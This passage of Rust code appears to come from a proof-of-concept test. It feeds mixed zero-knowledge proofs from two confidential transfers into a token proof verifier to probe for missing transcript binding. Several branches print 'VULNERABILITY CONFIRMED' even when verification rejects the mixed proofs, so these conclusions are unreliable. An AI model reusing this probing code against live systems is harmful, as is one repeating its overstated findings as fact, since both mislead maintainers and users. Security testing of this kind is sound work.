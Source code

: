 ```rust
                    // This is a side-effect check that happens to catch the mixed proofs in this case,
                    // but it's not a proper transcript binding check
                    println!("The error is due to mismatched ElGamal public keys, not proper transcript binding.");
                    println!("VULNERABILITY CONFIRMED: The system lacks proper transcript binding between proofs.");
                    println!("It relies on side-effect checks that may not catch all mixed proof scenarios.");
                }
                TokenProofExtractionError::PedersenCommitmentMismatch => {
                    // This error indicates that the Pedersen commitments don't match between proofs
                    // Again, this is a side-effect check, not a proper transcript binding check
                    println!("The error is due to mismatched Pedersen commitments, not proper transcript binding.");
                    println!("VULNERABILITY CONFIRMED: The system lacks proper transcript binding between proofs.");
                    println!("It relies on side-effect checks that may not catch all mixed proof scenarios.");
                }
                _ => {
                    // Any other error may or may not be related to transcript binding
                    println!("The error may or may not be related to transcript binding.");
                    println!("Further analysis is needed to determine if the vulnerability exists.");
                }
            }
        }
    }
    
    // Additional test: Try a different mix of proofs
    // Use equality and ciphertext validity proofs from Transfer 1, but range proof from Transfer 2
    let result2 = TransferProofContext::verify_and_extract(
        equality_proof_data_1.context_data(),
        ciphertext_validity_proof_data_with_ciphertext_1.proof_data.context_data(),
        range_proof_data_2.context_data(),
    );
    
    match result2 {
        Ok(_) => {
            println!("\nVULNERABILITY CONFIRMED (Mix 2): Mixed proofs from different transfers were accepted!");
        }
        Err(e) => {
            println!("\nMixed proofs (Mix 2) failed verification with error: {:?}", e);
            
            match e {
                TokenProofExtractionError::PedersenCommitmentMismatch => {
                    println!("The error is due to mismatched Pedersen commitments, not proper transcript binding.");
                    println!("VULNERABILITY CONFIRMED: The system lacks proper transcript binding between proofs.");
                }
                _ => {
                    println!("The error may or may not be related to transcript binding.");
                    println!("Further analysis is needed to determine if the vulnerability exists.");
                }
            }
        }
    }
}
```